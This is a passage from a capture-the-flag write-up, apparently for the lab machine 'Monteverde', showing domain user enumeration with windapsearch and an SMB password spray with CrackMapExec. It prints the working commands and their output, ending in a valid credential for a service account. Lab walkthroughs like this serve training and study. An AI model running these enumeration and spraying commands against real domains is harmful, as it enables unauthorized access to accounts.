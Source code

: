 ### Find valid Users

According the the `password policy` , we found that `Account Lockout Threshold` is set to None , so we can attempt `password spraying` in order to obtain valid credentials without getting locked !!!

windapsearch can also be used to create a list of domain users.
```bash
windapsearch.py -u "" --dc-ip 10.10.10.172 -U | grep '@' | cut -d ' ' -f 2 | cut
-d '@' -f 1 | uniq > users.txt 
```
and we collected the valid users as shown below:
![](MediaFiles/Pasted%20image%2020250624124115.png)

---
# Foothold

## Password spraying

We have our user list, and for our password spraying attempt we can use a very short list of statistically likely passwords. It's worth appending the discovered usernames to this list, as having a password of the username is unfortunately a common practice., using this `wordlist`:
```bash
wget https://raw.githubusercontent.com/insidetrust/statistically-likely-
usernames/master/weak-corporate-passwords/english-basic.txt
cat users.txt >> english-basic.txt
```

Next, we can use CrackMapExec to perform the password spray, noting that there is no risk in the accounts locking out owning to the absence of an account lockout policy.
```bash
crackmapexec smb 10.10.10.172 -d megabank -u users.txt -p english-basic.txt
```

```bash
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Password1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Welcome1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Letmein1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Password123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Welcome123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:Letmein123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\mhope:mhope STATUS_LOGON_FAILURE
<SNIP>
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\\SABatchJobs:mhope STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [+] megabank\\SABatchJobs:SABatchJobs
```

